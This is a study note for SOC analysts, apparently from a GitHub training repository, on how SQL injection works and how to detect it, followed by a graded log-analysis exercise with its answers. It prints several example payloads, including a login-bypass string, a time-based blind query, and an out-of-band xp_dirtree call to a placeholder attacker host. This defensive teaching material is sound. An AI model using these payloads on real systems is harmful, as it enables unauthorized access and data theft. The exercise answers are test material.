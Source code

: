 # Detecting SQL Injection Attacks
## What is SQL Injection (SQLi)?
SQL Injections are critical attack vectors in which a web application directly includes unsanitized user-provided data in SQL queries.

The frameworks we use today to develop web applications have preventative mechanisms in place to protect against SQL Injection attacks. However, we still come across SQL injection vulnerabilities because sometimes raw SQL queries are used, sometimes the framework has an inherent SQL injection vulnerability, or the framework is not used properly.

## Types of SQL Injections
There are 3 types of SQL Injection. These are: 
- In-band SQLi (Classic SQLi): When an SQL query is sent and responded to on the same channel, we call this in-band SQLi. This is easier for attackers to exploit than other categories of SQLi. `SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';`
- Inferential SQLi (Blind SQLi): SQL queries that receive a response that cannot be seen are called Inferential SQLi. They are also called "Blind SQLi" because the response cannot be seen. `SELECT * FROM users WHERE id = 1; IF(1=1, SLEEP(5), 0) --;`
- Out-of-band SQLi: If the response to an SQL query is communicated through another channel, this type of SQLi is called "out-of-band SQLi". For example, if the attacker receives replies to the SQL queries via DNS, this is called out-of-band SQLi. `SELECT * FROM users WHERE id = 1; EXEC xp_dirtree '//attacker.com/abc' --;`

## How Does SQL Injection Work?
Today, most standard web applications receive data from a user and use that data to display specific content. The login page is where most SQL injection attacks occur. Let's look at how SQL injections work through an example.

A user is usually expected to enter their username and password on the login page. Then, on the other side, the web application will use this username and password information to create an SQL query like the one below:

`SELECT * FROM users WHERE username = 'USERNAME’ AND password = 'USER_PASSWORD'`

The meaning of this SQL query is "Bring me all the information about the user from the user's table whose name is USERNAME and whose password is USER_PASSWORD". If the web application finds a matching user, it will authenticate the user, if it cannot find a user after executing the query, the login will fail.

Let's say your username is "john" and your password is "supersecretpassword". When you enter this information and click the 'Login' button, the SQL query shown below will be queried and you will be able to log in because a match was found after the SQL query.

`SELECT * FROM users WHERE username = ‘john’ AND password = 'supersecretpassword'`

So what if we do not use this system as it was designed and we put an apostrophe (') in the username field? The SQL query will look like this and the error will be excluded from the database because the query was incorrect.

`SELECT * FROM users WHERE username = ‘john’’ AND password = 'supersecretpassword'`

Of course, an attacker would be pleased to get an error message, as they can manipulate the information in the error message to their advantage. It also shows that the attacker is on the right track. So what if the attacker enters a payload like the following in the username section?

`‘ OR 1=1 -- -`

When the attacker submits the payload, the web application executes the following SQL query:

`SELECT * FROM users WHERE username = ‘’ OR 1=1 -- - AND password = 'supersecretpassword'`

In SQL, any characters after "-- -" are considered to be a comment line. So if we look at the query above, the characters after "-- -" mean nothing. So, for the sake of simplicity, let's remove that part before we examine the SQL query further.

`SELECT * FROM users WHERE username = ‘’ OR 1=1`

The query above now looks like this "if the username is empty or 1=1". It does not matter whether the username field is empty or not, because 1 is always equal to 1. So this query will always be true and will most likely call the first entry in the database. The attacker will be able to successfully enter the web application because there is a match.

This is a typical SQL injection attack. Of course, SQL injection attacks are not limited to this example, the attacker could use SQL to execute commands in the system using SQL commands such as xp_cmdshell.

## What Attackers Gain from SQL Injection Attacks
To understand why SQL injection attacks are so important, let's take a look at what an SQL injection attack can do.
- Authentication bypass
- Command execution
- Exfiltration of sensitive data
- Creating/Deleting/Updating database entries

## How to Prevent SQL Injections
- Use a framework: Of course, just using a framework is not enough to prevent a SQL injection attack. However, it is still very important to use the framework according to the documentation.
- Keep your framework up to date: Keep your web application secure by following security updates according to the framework you use.
- Always sanitize data received from a user: Never trust data received from a user. In addition, sanitize all data (such as headers, URLs, etc.), not just form data.
- Avoid the use of raw SQL queries: You may be in the habit of writing raw SQL queries, but you should take advantage of the security provided by the framework.

## Detecting SQL Injection Attacks
In the previous section, we discussed what an attacker can do with a SQL injection attack. Each of the results of a SQL Injection mentioned above can cause great damage to an organization, so as SOC analysts we should be able to detect these attacks and take precautions against them.

So how do we detect SQL injection attacks?

There is more than one answer to this question:
- When examining a web request, check all areas that come from the user: As SQL injection attacks are not limited to the form areas, you should also check the HTTP request headers such as the "User-Agent".
- Look for SQL keywords: Look for words such as "INSERT", "SELECT", and "WHERE" in the data received from users.
- Check any special characters: Look for apostrophes ('), dashes (-), or parentheses used in SQL or special characters commonly used in SQL attacks in the data received from the user.
- Familiarise yourself with commonly used SQL injection payloads: Although SQL payloads change depending on the web application, attackers still use some common payloads to test for SQL injection vulnerabilities. If you are familiar with these payloads, you can easily detect SQL injection payloads. You can find some commonly used SQL injection payloads here.

## Detecting Automated SQL Injection Tools
Attackers use many automated tools to detect SQL injection vulnerabilities. One of the well-known tools is Sqlmap. However, let's look at the bigger picture rather than focusing on one particular tool.

You can use the following methods to detect SQL injection tools:
- Look at the User-Agent: Automated tools usually have their names and versions recorded. You can look at the User-Agent to detect these automated tools.
- Check the frequency of requests: Automated tools are designed to send an estimated number of requests per second to test payloads as quickly as possible. A normal user might send 1 request per second, so looking at the number of requests per second will tell you if the requests are from an automated tool or not.
- Look at the content of the payload: Automated tools usually include their own names in their payloads. For example, an SQL injection payload sent by an automated tool might look like this: sqlmap’ OR 1=1
- If the payload is complicated: This detection method may not always work, but based on my experience I could say that automated tools send more complicated payloads.
  
----

## Questions
1. Note: Use the "/root/Desktop/QuestionFiles/SQL_Injection_Web_Attacks.rar" file for solving the questions below.<br>
   Question: What date did the exploitation phase of SQL Injection Attack start?<br>
   File Password: access<br>
   Answer Format: 01/Jan/2022:12:00:00<br>
   As we scroll through the logs, we identify the first suspicious request on `01/Mar/2022:08:35:14`. The request is as follows: `/dvwa/vulnerabilities/sqli/?id=%27&Submit=Submit`. Decoding the URL, we get `/dvwa/vulnerabilities/sqli/?id='&Submit=Submit`. <br>`Answer: 01/Mar/2022:08:35:14`

2. What is the IP address of the attacker who performed the SQL Injection attack?<br>
   `Answer: 192.168.31.167` (Look at the suspicious log and got the IP)

3. Was the SQL Injection attack successful? (Answer Format: Y/N)<br>
   Examine the response size in the logs. The response size for the SQLi requests ranges from approximately 4500 to 4800 bytes.<br>
   `Answer: Y` 

4. What is the type of SQL Injection attack? (Classic, Blind, Out-of-band)<br>
   `Answer: Classic`
